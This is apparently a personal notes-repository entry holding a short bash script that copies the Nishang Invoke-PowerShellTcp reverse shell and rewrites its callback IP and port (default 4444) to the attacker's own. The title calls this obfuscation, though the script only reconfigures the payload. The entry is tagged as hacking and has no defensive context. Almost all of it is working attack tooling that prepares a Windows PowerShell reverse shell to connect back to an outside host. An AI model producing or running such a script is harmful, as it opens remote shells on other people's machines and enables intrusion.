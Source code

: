 # script to obfuscate a nishang reverse tcp shell for windows powershell

- concept of `script to obfuscate a nishang reverse tcp shell for windows powershell`
- must have nishang package installed
  - [x] add error handling

```bash
#!/bin/bash

ATTACKER=$(getmyip)
PORT=$1
if [ -z "$PORT" ]; then
  export PORT=4444
fi
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
# take the line, move to end and remove "PS >"
ex -s -c 'g/Invoke.*Tcp -Rev.*192.168.254.226/m$' -c '$s/PS > //' -c wq nishang.ps1
# edit the IP
ex -s -c "\$s/192.168.254.226/$ATTACKER/" -c wq nishang.ps1
# edit the port
ex -s -c "\$s/4444/$PORT/" -c wq nishang.ps1
```

` zet/20230906044835/README.md `

# Related

- [20230906033259](/zet/20230906033259/README.md) functions to copy over and possibly remake as commands
- [20230906033727](/zet/20230906033727/README.md) commands to get ip

Tags:

    #shortcmd #script #hacking
